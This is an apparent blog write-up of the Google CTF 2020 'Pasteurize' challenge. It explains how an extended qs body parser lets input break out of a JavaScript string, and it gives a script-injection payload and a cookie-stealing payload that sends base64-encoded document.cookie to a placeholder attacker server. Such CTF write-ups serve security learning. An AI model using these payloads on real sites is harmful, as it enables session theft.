 ```yaml
---
layout: post
title: "[GoogleCTF 2020] Pasteurize"
author: Vie
---
```


# TL;DR

1. Escape out of the `const note` javascript variable by forcing the app's bodyparser(`npm qs`) to interpret your input as an array
2. Craft XSS payload to steal cookies and put it into a paste
3. Share your paste with TJMike to get the flag

# Pasteurize 

The first web challenge from Google CTF 2020. It's a simple website that holds "pastes", or notes, that take your input and store it onto a note webpage. You make a note, and then you can share it with some entity called "TJMike". Pretty cut and clear XSS attack. 

Unfortunately, it's not that simple: 

```html
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
<script>
        const note = "test";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
    
```

There's a `<script>` tag in the HTML of the note we create that takes our input, puts it into a `note` variable, and then cleans it using [DOMpurify](https://www.npmjs.com/package/dompurify). The DOMpurify npm library is a pretty robust one, and I doubted that Google wanted us to 0day it to solve this challenge. Can we escape out of that `note` variable? If we could, say, inject our own quotation marks in there? If we could, then since we're already in a Javascript context, we could do all sorts of commands and implanting an XSS payload would be pretty easy to do. What's also interesting is the presence of that suspicious HTML comment, just above the `<script>` tag. More on that in a second. 

Putting a pin on that - if we examine how the requests are made when we submit our note, we see that a POST request is made where our input is in that request body, given to the server to process accordingly.

TODO IMAGE

How does the body of POST requests get parsed by the pasteurize application? Well, going back to that HTML comment we saw earlier, we can see for ourselves by going to the `/source` endpoint.

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

Amidst the rest of the code is this interesting declaration of how the app's bodyparser (what actually reads through a request body in the application) should work - in extended mode. Doing some [googling](https://stackoverflow.com/questions/55558402/what-is-the-mean-of-bodyparser-urlencoded-extended-true-and-bodyparser) reveals that setting bodyParser's extended mode to `true` means it will utilize the `qs` library to parse input. What does that mean for us?

The `qs` library can parse [strings and arrays](https://www.npmjs.com/package/qs) from request bodies. If you stipulate a parameter in the body as so:

```
pets[]=cat&dog
```

then `qs` will interpret it as an array:

```
pets: ['cat', 'dog']
```

Notice how the library will input its own quotation marks in the elements of the array. Can we leverage this behvaiour from `qs` to inject quotation marks for us? 

If you input into the body of the request:

```
content[] = ; alert(1); const ignore =
```

We can succesfully escape from that `note` variable from before and have an alert pop up when we visit the created note. Essentially, the `<script>` now looks like this:

```html
<script>
        const note = ""; alert(1); const ignore ="";
        const note_id = "5f6552a8-b92b-424c-b5cb-8069212b081d";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
</script>
```
And so the `alert` function is being correctly evaluated as javascript instead of as part of a string.

The rest of the challenge is a pretty cut and clear XSS - craft a payload that steaks a cookie and sends it to your server on load of the note webpage, and share that with TJMike.

```
content[] = ; document.getElementByID('note-content').onLoad = fetch("SER.ver?Cookie="%2Bbtoa(document.cookie))
```
This payloads crafts the cookie into a GET URL query, so it's encoded in base64 to avoid potential URL issues with strange characters. Report your note to TJMike, and retrieve the cookie sent to your server...

![Reported](/assets/images/googlectf2020/pasteurize/StolenCookie.png) 

Now we just need to decode it! 

![Decoded](/assets/images/googlectf2020/pasteurize/DecodedCookie.png) 